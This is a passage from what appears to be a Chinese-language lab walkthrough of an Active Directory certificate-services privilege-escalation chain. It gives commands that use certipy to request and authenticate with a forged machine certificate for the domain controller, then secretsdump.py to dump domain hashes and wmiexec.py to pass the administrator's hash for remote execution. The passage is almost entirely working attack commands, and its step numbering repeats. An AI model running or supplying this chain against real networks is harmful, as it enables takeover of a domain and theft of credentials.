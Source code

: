 7、再次申请证书：

```shell
certipy req 'xiaodi.local/pwnmachine$:CVEPassword1234*@192.168.1.15' -template Machine -dc-ip 192.168.1.15 -ca xiaodi-WIN-3C7SS32SQ6R-CA
```

8、检测证书：

```shell
certipy auth -pfx ./win-3c7ss32sq6r.pfx -dc-ip 192.168.1.15
```

9、导出HASH：

```shell
python3 secretsdump.py 'xiaodi.local/win-3c7ss32sq6r$@WIN-3C7SS32SQ6R.xiaodi.local' -hashes :10e02bef2258ad9b239e2281a01827a4
```

8、利用HASH：

```shell
python3 wmiexec.py xiaodi.local/administrator@192.168.1.15 -hashes aad3b435b51404eeaad3b435b51404ee:e6f01fc9f2a0dc96871220f7787164bd
```